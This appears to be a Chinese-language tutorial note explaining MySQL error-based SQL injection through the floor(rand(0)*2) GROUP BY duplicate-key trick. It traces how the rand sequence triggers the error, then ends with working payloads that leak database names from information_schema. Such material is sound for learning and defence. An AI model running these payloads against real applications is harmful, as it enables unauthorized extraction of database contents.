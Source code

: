 
`select count(*) from table3 group by floor(rand(0)*2);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201212150136.png)

>`group by`只有在插入虚拟表时才会计算rand,更新时不会计算

首先,`group by floor(rand(0)*2)`被执行确定为`group by 0`,此时虚拟表为空,进行插入操作,此时`floor(rand(0)*2)`结果为`1`

已执行两次`rand`计算

|primary key|count|
|:---:|:---:|
|1|1|

然后,`group by floor(rand(0)*2)`被执行确定为`group by 1`,此时虚拟表存在该项`count+1`

已执行三次`rand`计算

|primary key|count|
|:---:|:---:|
|1|2|

然后,`group by floor(rand(0)*2)`被执行确定为`group by 0`,此时虚拟表不存在该项,进行插入操作,此时`floor(rand(0)*2)`结果为`1`,将要插入`1`但是此时虚拟表已存在`1`,因此主键冲突产生报错

已执行五次`rand`计算

因此表中需要有至少三条数据供`floor(rand(0)*2)`达到报错条件

```
select floor(rand(14)*2) from `TABLES` limit 4;
+-------------------+
| floor(rand(14)*2) |
+-------------------+
| 1.0               |
| 0.0               |
| 1.0               |
| 0.0               |
+-------------------+
```

>floor(rand(14)*2)产生随机序列1010...,因此表中可以只有两条数据

>如何利用该报错?

爆破库名

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select schema_name from information_schema.schemata limit 1,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x)y);`

`select * from table3 where id='1' and (select 1 from (select count(*),concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e,floor(rand(0)*2))x from information_schema.tables group by x)y);`
